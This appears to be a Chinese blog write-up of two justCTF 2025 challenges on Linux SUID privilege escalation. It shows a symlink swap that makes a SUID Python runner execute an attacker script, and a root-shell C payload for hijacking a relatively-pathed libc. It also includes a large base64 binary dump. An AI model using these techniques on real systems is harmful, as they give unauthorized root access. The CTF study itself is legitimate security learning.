


+++
title = "LinuxAmd64中suid位实现提权"
slug = "linux-amd64-suid-privilege-escalation"
description = "suid位还是花"
date = "2025-08-03T18:19:43"
lastmod = "2025-08-03T18:19:43"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势"]
+++

周末和suers一起看了两个提权的题目，出自justCTF2025。

## PyEvaline crimes

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int _, char** a, char** envp) {
	// Omg such secure!
	unsetenv("PYTHONPATH");
	unsetenv("PYTHONHOME");
	unsetenv("PYTHONSTARTUP");
	unsetenv("PYTHONBREAKPOINT");
	unsetenv("PYTHONUSERBASE");
	unsetenv("PYTHONEXECUTABLE");

	char* argv[] = {
		"python3",
		"-E", "-I", "-s",  // Double, or triple secure!
		"/home/ctfplayer/app",
		NULL
	};

	execve("/usr/local/bin/python3", argv, envp);
}
```

这题里面有个runner，删除了很多python的环境变量，并且非常严格的来利用python执行app，

```python
#!/usr/bin/env python3
import os
import subprocess
import sys
import readline
import ast
import os
import json
import time
import string
import random
import math

def process():
    command = input("> ")

    if not command:
        return

    if command == "exit":
        print("Goodbye!")
        sys.exit(0)

    if command == "id":
        print("uid:  %d,  gid: %d" % (os.getuid(), os.getgid()))
        print("euid: %d, egid: %d" % (os.geteuid(), os.getegid()))
        return

    if command == "ls":
        os.system("/bin/ls -lah")
        return

    if command == "time":
        print("time now: ", time.time())
        return

    if command == "rng":
        print("rng:", random.random())
        return

    if command == "help":
        print("""
Commands:
    exit                - exit shell
    help                - display this help
    eval <expression>   - evalute given expression :)
    id                  - show our id
    ls                  - list files
    time                - time now
    rng                 - roll a dice!
""")
        return

    cmd, expr = command.split(" ", 1)
    if cmd != "eval":
        print("unrecognized command: ", cmd)
        return

    if len(expr) > 10:
        print("Too long expression, sorry")
        return

    e = ast.literal_eval(expr)
    print("Result of {} = {}".format(expr, e))

    # TODO/FIXME: Implement math expressions via pwnlib.util.safeeval.expr() 


def main():
    print("Welcome to our crime shell!")
    print("Type `exit` to quit. Type `help` for help.")

    while True:
        try:
            process()
        except Exception as e:
            print("Oh, sorry, we got this exception:", e)


if __name__ == '__main__':
    main()

```

限制了eval函数，但是这里根本不用管这个jail，由于他会用`suid`权限来运行`app`

```dockerfile
FROM --platform=linux/amd64 python:3.13.5-bookworm

RUN useradd -m ctfplayer

COPY --chmod=755 app /home/ctfplayer/app
COPY --chmod=4755 runner /home/ctfplayer/runner
COPY --chmod=400 flag.txt /home/ctfplayer/flag.txt

WORKDIR /home/ctfplayer

USER ctfplayer
ENTRYPOINT ["/bin/sh"]
```

所以进行如下操作即可

```bash
rm -rf app
echo 'print(open("flag.txt").read())' > /tmp/exp.py
ls /tmp


ln -s /tmp/exp.py app 

ls
./runner
```



## Baby SUID

```dockerfile
FROM --platform=linux/amd64 fedora:24

COPY --chmod=4755 hello /usr/bin/hello
COPY --chmod=400 flag.txt /flag.txt

RUN useradd -m ctfplayer
WORKDIR /home/ctfplayer

USER ctfplayer
ENTRYPOINT ["/bin/sh"]
```

里面有一个hello程序，是suid权限的

```c
#include <stdio.h>

int main(void) {
    printf("Welcome to JustCTF 2025, I鈥檓 rooting for you to succeed!\n");
    return 0;
}
```

这里就没看出来什么了，先本地起个docker看看

```bash
chmod +x run.sh
./run.sh
```

用`strace`看看这个文件，直接拖到本地

```bash
base64 /usr/bin/hello -w 0

cat > hello_remote.b64 << 'EOF'
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Aw4QFxsOEQESBgAAAi4BEQESBkAYl0IZAw46CzsLJxk/GQAAAwUAAhcDDjoLOwtJEwAABDQAAhcDDjoLOwtJEwAABQsBVRcAAAaJggEBk0IYEQEAAAeKggEAAhiRQhgAAAguABEBEgZAGJdCGQMOOgs7CycZPxkAAAkkAAMOPgsLCwAACg8ASRMAAAsWAEkTAw46CzsLAAAMJgBJEwAAACwAAAACAAAAAAAIAAAAAADAFAABAAAAACsAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKUAAAAEAH0AAAABAQH7Dg0AAQEBAQAAAAEAAAEvbml4L3N0b3JlLzM2OHYxbGRkNnNyOHhiZzAyYTduYnByOWl2azd4Njc2LXppZy0wLjE0LjEvbGliL3ppZy9saWJjL2dsaWJjL3N5c2RlcHMveDg2XzY0AABzdGFydC0yLjMzLlMAAQAAAAAJAsAUAAEAAAAAAz4BAxAuQiM+TSQkdXYDEHRoAgEAAQF2AAAABABwAAAAAQEB+w4NAAEBAQEAAAABAAABL25peC9zdG9yZS8zNjh2MWxkZDZzcjh4YmcwMmE3bmJwcjlpdms3eDY3Ni16aWctMC4xNC4xL2xpYi96aWcvbGliYy9nbGliYy9jc3UAAGFiaS1ub3RlLlMAAQAAAHIAAAAEAGwAAAABAQH7Dg0AAQEBAQAAAAEAAAEvbml4L3N0b3JlLzM2OHYxbGRkNnNyOHhiZzAyYTduYnByOWl2azd4Njc2LXppZy0wLjE0LjEvbGliL3ppZy9saWJjL2dsaWJjL2NzdQAAaW5pdC5jAAEAAAA+AAAABAAfAAAAAQEB+w4NAAEBAQEAAAABAAABAGhlbGxvLmMAAAAAAAAJAvAUAAEAAAAAFAUFCuXXBgsuAgYAAQEfAQAABADRAAAAAQEB+w4NAAEBAQEAAAABAAABL25peC9zdG9yZS8zNjh2MWxkZDZzcjh4YmcwMmE3bmJwcjlpdms3eDY3Ni16aWctMC4xNC4xL2xpYi96aWcvbGliYy9nbGliYy9jc3UAL25peC9zdG9yZS8zNjh2MWxkZDZzcjh4YmcwMmE3bmJwcjlpdms3eDY3Ni16aWctMC4xNC4xL2xpYi96aWcvaW5jbHVkZQAAZWxmLWluaXQtMi4zMy5jAAEAAF9fc3RkZGVmX3NpemVfdC5oAAIA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
EOF

base64 -d hello_remote.b64 > hello_remote
strace ./hello_remote
```



这里使用相对路径加载库文件，准备劫持so文件，把远程的so文件拉下来

```bash
sh-4.3$ ldd /usr/bin/hello
        linux-vdso.so.1 (0x00007f193d78a000)
        libc.so.6 => //usr/bin/../lib64/libc.so.6 (0x00007f193d03d000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f193d400000)


docker exec 98058121e919 readlink -f //usr/bin/../lib64/libc.so.6
docker cp 98058121e919:/usr/lib64/libc-2.23.so ./libc_real.so.6
```

编译成so文件，传到对应目录

```c
	setuid(0);
    setgid(0);
    execve("/bin/sh", 0, 0);
    exit(0);
```

填进去，然后覆盖原来的so文件，运行hello即可，但是这个特性只有这个特定系统才能成功

```dockerfile
FROM --platform=linux/amd64 fedora:24

COPY --chmod=4755 hello /usr/bin/hello
COPY --chmod=400 flag.txt /flag.txt

RUN useradd -m ctfplayer
WORKDIR /home/ctfplayer

USER ctfplayer
ENTRYPOINT ["/bin/sh"]
```

我本地都成功不了，只有远程才行。

## 小结

这两提权应该是通用的，但是劫持so文件的设置很麻烦，所以我没弄，软链接的python我是成功了的


